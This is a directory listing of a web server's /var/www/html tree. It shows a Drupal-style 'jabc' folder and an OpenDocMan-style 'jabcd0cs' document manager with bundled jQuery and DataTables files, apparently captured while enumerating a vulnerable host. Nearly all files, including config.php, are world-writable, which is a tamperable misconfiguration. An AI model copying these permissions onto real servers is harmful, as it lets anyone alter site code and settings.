-rwxrwxrwx 1 root root 265 Apr 16 2016 /var/www/html/jabc/misc/vertical-tabs-rtl.css
-rwxrwxrwx 1 root root 129 Apr 16 2016 /var/www/html/jabc/misc/tree-bottom.png
-rwxrwxrwx 1 root root 2460 Apr 16 2016 /var/www/html/jabc/misc/form.js
-rwxrwxrwx 1 root root 1448 Apr 16 2016 /var/www/html/jabc/misc/powered-black-80x15.png
-rwxrwxrwx 1 root root 5872 Apr 16 2016 /var/www/html/jabc/misc/progress.gif
-rwxrwxrwx 1 root root 293 Apr 16 2016 /var/www/html/jabc/misc/help.png
-rwxrwxrwx 1 root root 126 Apr 16 2016 /var/www/html/jabc/misc/menu-leaf.png
-rwxrwxrwx 1 root root 1764 Apr 16 2016 /var/www/html/jabc/misc/forum-icons.png
-rwxrwxrwx 1 root root 17354 Apr 16 2016 /var/www/html/jabc/misc/states.js
-rwxrwxrwx 1 root root 1150 Apr 16 2016 /var/www/html/jabc/misc/favicon.ico
-rwxrwxrwx 1 root root 1336 Apr 16 2016 /var/www/html/jabc/misc/throbber.gif
-rwxrwxrwx 1 root root 9913 Apr 16 2016 /var/www/html/jabc/misc/jquery.form.js
-rwxrwxrwx 1 root root 1968 Apr 16 2016 /var/www/html/jabc/misc/powered-gray-88x31.png
-rwxrwxrwx 1 root root 372 Apr 16 2016 /var/www/html/jabc/misc/watchdog-ok.png
-rwxrwxrwx 1 root root 1011 Apr 16 2016 /var/www/html/jabc/misc/message-24-info.png
-rwxrwxrwx 1 root root 41999 Apr 16 2016 /var/www/html/jabc/misc/tabledrag.js
-rwxrwxrwx 1 root root 733 Apr 16 2016 /var/www/html/jabc/misc/message-24-error.png
-rwxrwxrwx 1 root root 775 Apr 16 2016 /var/www/html/jabc/misc/watchdog-error.png
-rwxrwxrwx 1 root root 317 Apr 16 2016 /var/www/html/jabc/misc/watchdog-warning.png
-rwxrwxrwx 1 root root 56 Apr 16 2016 /var/www/html/jabc/misc/print-rtl.css
-rwxrwxrwx 1 root root 130 Apr 16 2016 /var/www/html/jabc/misc/tree.png
-rwxrwxrwx 1 root root 242 Apr 16 2016 /var/www/html/jabc/misc/permissions.png
-rwxrwxrwx 1 root root 5330 Apr 16 2016 /var/www/html/jabc/misc/tableheader.js
-rwxrwxrwx 1 root root 22540 Apr 16 2016 /var/www/html/jabc/misc/ajax.js
-rwxrwxrwx 1 root root 106 Apr 16 2016 /var/www/html/jabc/misc/menu-expanded.png
-rwxrwxrwx 1 root root 268 Apr 16 2016 /var/www/html/jabc/misc/draggable.png
-rwxrwxrwx 1 root root 247 Apr 16 2016 /var/www/html/jabc/misc/configure.png
-rwxrwxrwx 1 root root 107 Apr 16 2016 /var/www/html/jabc/misc/menu-collapsed-rtl.png
-rwxrwxrwx 1 root root 3323 Apr 16 2016 /var/www/html/jabc/misc/collapse.js
-rwxrwxrwx 1 root root 637 Apr 16 2016 /var/www/html/jabc/misc/message-16-ok.png
-rwxrwxrwx 1 root root 3728 Apr 16 2016 /var/www/html/jabc/misc/tableselect.js
-rwxrwxrwx 1 root root 291 Apr 16 2016 /var/www/html/jabc/misc/print.css
-rwxrwxrwx 1 root root 1058 Apr 16 2016 /var/www/html/jabc/misc/message-24-ok.png
-rwxrwxrwx 1 root root 519 Apr 16 2016 /var/www/html/jabc/misc/message-16-error.png
-rwxrwxrwx 1 root root 668 Apr 16 2016 /var/www/html/jabc/misc/message-16-help.png
-rwxrwxrwx 1 root root 720 Apr 16 2016 /var/www/html/jabc/cron.php
-rwxrwxrwx 1 root root 16968 Nov 27 2013 /var/www/html/jabcd0cs/User_class.php
-rwxrwxrwx 1 root root 3236 Nov 27 2013 /var/www/html/jabcd0cs/access_log.php
-rwxrwxrwx 1 root root 13075 Nov 27 2013 /var/www/html/jabcd0cs/magic
-rw-rw-rw- 1 www-data www-data 2014 Apr 20 2016 /var/www/html/jabcd0cs/config.php
-rwxrwxrwx 1 root root 2202 Nov 27 2013 /var/www/html/jabcd0cs/README
-rwxrwxrwx 1 root root 1761 Nov 27 2013 /var/www/html/jabcd0cs/linkcontrol.css
-rwxrwxrwx 1 root root 6000 Nov 27 2013 /var/www/html/jabcd0cs/view_file.php
-rwxrwxrwx 1 root root 1815 Nov 27 2013 /var/www/html/jabcd0cs/Reviewer_class.php
-rwxrwxrwx 1 root root 24710 Nov 27 2013 /var/www/html/jabcd0cs/department.php
-rwxrwxrwx 1 root root 640 Nov 27 2013 /var/www/html/jabcd0cs/README.md
-rwxrwxrwx 1 root root 27550 Nov 27 2013 /var/www/html/jabcd0cs/FileData_class.php
-rwxrwxrwx 1 root root 3513 Nov 27 2013 /var/www/html/jabcd0cs/secureurl.class.php
-rwxrwxrwx 1 root root 2616 Nov 27 2013 /var/www/html/jabcd0cs/Email_class.php
-rwxrwxrwx 1 root root 5088 Nov 27 2013 /var/www/html/jabcd0cs/rejects.php
-rwxrwxrwx 1 root root 10635 Nov 27 2013 /var/www/html/jabcd0cs/details.php
-rwxrwxrwx 1 root root 5285 Nov 27 2013 /var/www/html/jabcd0cs/error.php
-rwxrwxrwx 1 root root 10742 Nov 27 2013 /var/www/html/jabcd0cs/search.php
-rwxrwxrwx 1 root root 21601 Nov 27 2013 /var/www/html/jabcd0cs/includes/jquery.validate.min.js
-rwxrwxrwx 1 root root 93867 Nov 27 2013 /var/www/html/jabcd0cs/includes/jquery.min.js
-rwxrwxrwx 1 root root 26123 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/croatian.php
-rwxrwxrwx 1 root root 317 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/README
-rwxrwxrwx 1 root root 28311 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/french.php
-rwxrwxrwx 1 root root 898 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/sync.sh
-rwxrwxrwx 1 root root 25834 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/german.php
-rwxrwxrwx 1 root root 23183 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/chinese.php
-rwxrwxrwx 1 root root 24975 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/english.php
-rwxrwxrwx 1 root root 27826 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/spanish.php
-rwxrwxrwx 1 root root 26589 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/portuguese.php
-rwxrwxrwx 1 root root 25880 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/czech.php
-rwxrwxrwx 1 root root 586 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.portuguese.txt
-rwxrwxrwx 1 root root 589 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.spanish.txt
-rwxrwxrwx 1 root root 546 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.turkish.txt
-rwxrwxrwx 1 root root 578 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.czech.txt
-rwxrwxrwx 1 root root 563 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.italian.txt
-rwxrwxrwx 1 root root 646 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.dutch.txt
-rwxrwxrwx 1 root root 542 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.english.txt
-rwxrwxrwx 1 root root 568 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.croatian.txt
-rwxrwxrwx 1 root root 645 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.french.txt
-rwxrwxrwx 1 root root 557 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.chinese.txt
-rwxrwxrwx 1 root root 550 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/DataTables/datatables.german.txt
-rwxrwxrwx 1 root root 25934 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/dutch.php
-rwxrwxrwx 1 root root 26638 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/turkish.php
-rwxrwxrwx 1 root root 26707 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/italian.php
-rwxrwxrwx 1 root root 24976 Nov 27 2013 /var/www/html/jabcd0cs/includes/language/danish.php
-rwxrwxrwx 1 root root 8640 Nov 27 2013 /var/www/html/jabcd0cs/includes/additional-methods.min.js
-rwxrwxrwx 1 root root 14369 Nov 27 2013 /var/www/html/jabcd0cs/includes/jquery.validate.pack.js
-rwxrwxrwx 1 root root 5342 Nov 27 2013 /var/www/html/jabcd0cs/includes/default.js
-rwxrwxrwx 1 root root 965 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/Readme.txt
-rwxrwxrwx 1 root root 12670 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColVis/theme.html
-rwxrwxrwx 1 root root 12011 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/index.html
-rwxrwxrwx 1 root root 14578 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/callbacks.html
-rwxrwxrwx 1 root root 20821 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/inputs.html
-rwxrwxrwx 1 root root 12379 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/columns.html
-rwxrwxrwx 1 root root 493 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/css/AutoFill.css
-rwxrwxrwx 1 root root 3846 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/index.html
-rwxrwxrwx 1 root root 2240 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/files.html
-rwxrwxrwx 1 root root 3837 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/symbols/AutoFill#s.scroller.html
-rwxrwxrwx 1 root root 3767 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/symbols/AutoFill#s.drag.html
-rwxrwxrwx 1 root root 33077 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/symbols/AutoFill.html
-rwxrwxrwx 1 root root 3796 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/docs/symbols/AutoFill#s.html
-rwxrwxrwx 1 root root 1040 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/media/images/filler.png
-rwxrwxrwx 1 root root 12156 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/AutoFill/scrolling.html
-rwxrwxrwx 1 root root 13358 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/index.html
-rwxrwxrwx 1 root root 14122 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/button_text.html
-rwxrwxrwx 1 root root 13659 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/swf_path.html
-rwxrwxrwx 1 root root 13311 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/multi_instance.html
-rwxrwxrwx 1 root root 8454 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/multiple_tables.html
-rwxrwxrwx 1 root root 15011 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/plug-in.html
-rwxrwxrwx 1 root root 13451 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/defaults.html
-rwxrwxrwx 1 root root 9944 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/tabs.html
-rwxrwxrwx 1 root root 13897 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/select_multi.html
-rwxrwxrwx 1 root root 13661 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/select_single.html
-rwxrwxrwx 1 root root 3437 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/css/TableTools_JUI.css
-rwxrwxrwx 1 root root 5065 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/css/TableTools.css
-rwxrwxrwx 1 root root 9770 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/as3/ZeroClipboardPdf.as
-rwxrwxrwx 1 root root 6517 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/as3/ZeroClipboard.as
-rwxrwxrwx 1 root root 131230 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/as3/lib/AlivePDF.swc
-rwxrwxrwx 1 root root 3762 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/index.html
-rwxrwxrwx 1 root root 6459 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/css/default.css
-rwxrwxrwx 1 root root 2284 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/files.html
-rwxrwxrwx 1 root root 12842 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#s.select.html
-rwxrwxrwx 1 root root 6857 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#dom.html
-rwxrwxrwx 1 root root 12384 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#s.html
-rwxrwxrwx 1 root root 27728 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools.html
-rwxrwxrwx 1 root root 9787 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#s.print.html
-rwxrwxrwx 1 root root 2491 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/_global_.html
-rwxrwxrwx 1 root root 3809 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools.BUTTONS.html
-rwxrwxrwx 1 root root 462899 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/src/js_TableTools.js.html
-rwxrwxrwx 1 root root 7027 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#dom.collection.html
-rwxrwxrwx 1 root root 3832 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools.DEFAULTS.html
-rwxrwxrwx 1 root root 6939 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/docs/symbols/TableTools#dom.print.html
-rwxrwxrwx 1 root root 2123 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/images/print.png
-rwxrwxrwx 1 root root 8394 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/js/TableTools.min.js.gz
-rwxrwxrwx 1 root root 11386 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/js/ZeroClipboard.js
-rwxrwxrwx 1 root root 30413 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/js/TableTools.min.js
-rwxrwxrwx 1 root root 62709 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/js/TableTools.js
-rwxrwxrwx 1 root root 2135 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/swf/copy_cvs_xls.swf
-rwxrwxrwx 1 root root 58820 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/media/swf/copy_cvs_xls_pdf.swf
-rwxrwxrwx 1 root root 13880 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/theme.html
-rwxrwxrwx 1 root root 13610 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/pdf_message.html
-rwxrwxrwx 1 root root 13812 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/alt_init.html
-rwxrwxrwx 1 root root 13845 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/collection.html
-rwxrwxrwx 1 root root 13545 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/TableTools/alter_buttons.html
-rwxrwxrwx 1 root root 12301 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/index.html
-rwxrwxrwx 1 root root 15664 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/top_bottom_left_right.html
-rwxrwxrwx 1 root root 12126 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/top_left.html
-rwxrwxrwx 1 root root 21553 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/two_tables.html
-rwxrwxrwx 1 root root 12328 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/zIndexes.html
-rwxrwxrwx 1 root root 26469 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/js/FixedHeader.js
-rwxrwxrwx 1 root root 11744 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedHeader/html_table.html
-rwxrwxrwx 1 root root 2768 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/api_scrolling.html
-rwxrwxrwx 1 root root 4534 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/data/server_processing.php
-rwxrwxrwx 1 root root 142087 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/data/2500.txt
-rwxrwxrwx 1 root root 2735 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/index.html
-rwxrwxrwx 1 root root 10052 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/global.html
-rwxrwxrwx 1 root root 2522 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/_anonymous__Scroller_dom.html
-rwxrwxrwx 1 root root 6675 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/_anonymous__Scroller.oDefaults.html
-rwxrwxrwx 1 root root 2638 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/_anonymous__Scroller_s.html
-rwxrwxrwx 1 root root 1189 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/images/extended.png
-rwxrwxrwx 1 root root 430 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/images/arrow.jpg
-rwxrwxrwx 1 root root 1061 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/license/Syntax Highlighter
-rwxrwxrwx 1 root root 2658 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/js/doc.js
-rwxrwxrwx 1 root root 216839 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/js/jquery.js
-rwxrwxrwx 1 root root 16175 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/js/shCore.js
-rwxrwxrwx 1 root root 1649 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/media/js/shBrushJScript.js
-rwxrwxrwx 1 root root 19153 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/docs/_anonymous__Scroller.html
-rwxrwxrwx 1 root root 2253 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/Scroller/media/js/Scroller.min.js.gz
-rwxrwxrwx 1 root root 13471 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/index.html
-rwxrwxrwx 1 root root 15672 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/x_y_scrolling.html
-rwxrwxrwx 1 root root 13640 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/scale_fixed.html
-rwxrwxrwx 1 root root 16046 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/index_column.html
-rwxrwxrwx 1 root root 1876 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/index.html
-rwxrwxrwx 1 root root 2620 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns_dom.grid.left.html
-rwxrwxrwx 1 root root 18576 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns_s.html
-rwxrwxrwx 1 root root 2624 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns_dom.grid.right.html
-rwxrwxrwx 1 root root 3035 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns_dom.clone.html
-rwxrwxrwx 1 root root 6215 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/css/shCore.css
-rwxrwxrwx 1 root root 3254 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/css/shThemeDataTables.css
-rwxrwxrwx 1 root root 3980 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/css/doc.css
-rwxrwxrwx 1 root root 1189 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/images/extended.png
-rwxrwxrwx 1 root root 430 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/images/arrow.jpg
-rwxrwxrwx 1 root root 1061 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/license/Syntax Highlighter
-rwxrwxrwx 1 root root 2658 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/js/doc.js
-rwxrwxrwx 1 root root 216839 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/js/jquery.js
-rwxrwxrwx 1 root root 16175 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/media/js/shCore.js
-rwxrwxrwx 1 root root 15618 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns.defaults.html
-rwxrwxrwx 1 root root 35343 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/docs/FixedColumns.html
-rwxrwxrwx 1 root root 13032 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/two_columns.html
-rwxrwxrwx 1 root root 13162 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/themed.html
-rwxrwxrwx 1 root root 13929 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/FixedColumns/css_size.html
-rwxrwxrwx 1 root root 15168 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/index.html
-rwxrwxrwx 1 root root 12069 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/datatable_scrolling.html
-rwxrwxrwx 1 root root 11910 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/datatable.html
-rwxrwxrwx 1 root root 13769 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/editing.html
-rwxrwxrwx 1 root root 3926 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/form.html
-rwxrwxrwx 1 root root 28614 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/js/KeyTable.js
-rwxrwxrwx 1 root root 2733 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/js/KeyTable.min.js.gz
-rwxrwxrwx 1 root root 7252 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/KeyTable/js/KeyTable.min.js
-rwxrwxrwx 1 root root 12638 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/index.html
-rwxrwxrwx 1 root root 5094 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/server_side.html
-rwxrwxrwx 1 root root 12549 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/alt_insert.html
-rwxrwxrwx 1 root root 12682 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/state_save.html
-rwxrwxrwx 1 root root 12682 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/predefined.html
-rwxrwxrwx 1 root root 351 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/css/ColReorder.css
-rwxrwxrwx 1 root root 2435 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/index.html
-rwxrwxrwx 1 root root 6459 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/css/default.css
-rwxrwxrwx 1 root root 1866 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/files.html
-rwxrwxrwx 1 root root 3384 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/ColReorder#s.mouse.html
-rwxrwxrwx 1 root root 2058 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/_global_.html
-rwxrwxrwx 1 root root 22608 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/ColReorder.html
-rwxrwxrwx 1 root root 186709 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/src/js_ColReorder.js.html
-rwxrwxrwx 1 root root 8527 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/ColReorder#s.html
-rwxrwxrwx 1 root root 6278 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/docs/symbols/ColReorder#dom.html
-rwxrwxrwx 1 root root 1885 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/images/insert.png
-rwxrwxrwx 1 root root 3269 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/js/ColReorder.min.js.gz
-rwxrwxrwx 1 root root 25480 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/js/ColReorder.js
-rwxrwxrwx 1 root root 9944 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/media/js/ColReorder.min.js
-rwxrwxrwx 1 root root 12481 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/scrolling.html
-rwxrwxrwx 1 root root 15803 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/fixedcolumns.html
-rwxrwxrwx 1 root root 12819 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/fixedheader.html
-rwxrwxrwx 1 root root 15532 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/col_filter.html
-rwxrwxrwx 1 root root 12782 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/theme.html
-rwxrwxrwx 1 root root 13460 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/reset.html
-rwxrwxrwx 1 root root 12881 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/extras/ColReorder/colvis.html
-rwxrwxrwx 1 root root 9689 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/css/demo_table.css
-rwxrwxrwx 1 root root 27490 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/Sorting icons.psd
-rwxrwxrwx 1 root root 612 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/back_disabled.jpg
-rwxrwxrwx 1 root root 263 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/sort_asc.png
-rwxrwxrwx 1 root root 282 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/sort_both.png
-rwxrwxrwx 1 root root 251 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/sort_desc_disabled.png
-rwxrwxrwx 1 root root 807 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/back_enabled.jpg
-rwxrwxrwx 1 root root 252 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/sort_asc_disabled.png
-rwxrwxrwx 1 root root 635 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/forward_disabled.jpg
-rwxrwxrwx 1 root root 852 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/forward_enabled.jpg
-rwxrwxrwx 1 root root 260 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/images/sort_desc.png
-rwxrwxrwx 1 root root 91341 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/js/jquery.js
-rwxrwxrwx 1 root root 70049 Nov 27 2013 /var/www/html/jabcd0cs/includes/DataTables/media/js/jquery.dataTables.min.js
